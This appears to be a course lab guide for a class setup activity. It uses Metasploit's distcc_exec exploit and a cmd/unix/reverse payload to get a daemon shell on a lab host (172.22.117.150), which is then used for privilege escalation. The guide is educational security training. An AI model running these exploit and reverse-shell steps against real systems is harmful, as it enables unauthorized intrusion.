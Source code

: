 In the next activity, you will attempt to find a way to escalate your privileges from the **daemon** user to a higher-privileged user.
- First, we need to be at the same starting point on the remote machine, so we'll complete a setup activity together as a class. 

#### Post Exploitation Activity Setup

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques. 

1. In Metasploit, search for `distcc`, and select it. 

   - `search distcc` 
   
   - `use 0` or `use exploit/unix/misc/distcc_exec`

   ![A screenshot depicts the results of the commands.](images/searchdistcc.PNG)

   -  `distcc` is a tool for compiling code. It runs as a daemon with low permissions, and this version is vulnerable. 

2. List the options of the module, and note that we need to set RHOSTS again as it is a required option.

   - `set RHOSTS 172.22.117.150`

3. Before running the module, we need to set a payload. List the available payloads.

   - `show payloads`
   
   - Note the **Description** column, as it shows in parentheses how the payload is communicating.

4. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.

   - `set PAYLOAD cmd/unix/reverse`
   
   - Note that we are now using the PAYLOAD with our EXPLOIT!

5. List options again, and note that there's a new blank setting, LHOST. This is our "listening host," which is the host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. Use `ifconfig` to show your IP (eth0) and set LHOST to that IP.

   - `set LHOST 172.22.117.100`
